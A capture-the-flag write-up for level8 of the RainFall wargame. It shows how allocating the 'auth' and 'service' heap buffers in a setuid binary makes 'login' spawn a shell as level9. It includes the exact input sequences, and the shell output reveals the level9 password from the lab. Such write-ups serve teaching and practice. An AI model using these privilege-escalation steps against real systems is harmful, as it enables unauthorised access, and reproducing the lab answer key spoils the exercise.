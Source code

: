# Level8

We can find an executable waiting for an input :
```
level8@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
level8@RainFall:~$ ./level8
(nil), (nil)
bla
(nil), (nil)
test
(nil), (nil)

(nil), (nil)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
(nil), (nil)
^C
level8@RainFall:~$
```
After analyze it with gdb we only find a `main()` function, long enough..  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level8/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level8/source.c) for full explanations.  
Ok, so the program run `system("/bin/sh")` after a serie of conditionnal jumps.  
It also reads stdin with `fgets()` and waits for commands :  
- `auth ` : calls malloc() and strcpy() and copies datas following `auth ` into the global variable auth.  
- `service` : calls strdup() and copies datas following `service` into the global variable service.  
- `reset` : calls free() and frees the global variable auth.  
- `login` : calls system() if auth[32] is different to 0, or fwrite() otherwise. 
Then displays addresses of the globals variables auth and service.  
In order to reach the system function we have to play with the commands above. Lets run the program to see the addresses of our globals variables after each commands :  
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service
0x804a008, 0x804a018
```
At this moment we can see that the address of service is exactly 16 bytes after the address of auth. This is because of malloc(), each pointer is placed right after the previous one with some padding between.  
We can already imagine two possible solutions :  
## First solution
Create two pointer with commands `auth ` and `service` long enough to reach 32 bytes including the 16 bytes of padding between them :  
- 16 padding bytes + 16 service bytes  
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
$
```
## Second solution
Create one pointer with command `auth ` then another by taping 2 times `service` with 2 * 16 bytes padding => 32 bytes !  
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service
0x804a008, 0x804a018        // 0x804a008 + 0x10 = 0x804a018
service
0x804a008, 0x804a028        // 0x804a008 + 0x20 = 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
```
Then we just have to log as level9
```
level8@RainFall:~$ su level9
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
level9@RainFall:~$
```
Level8 passed!
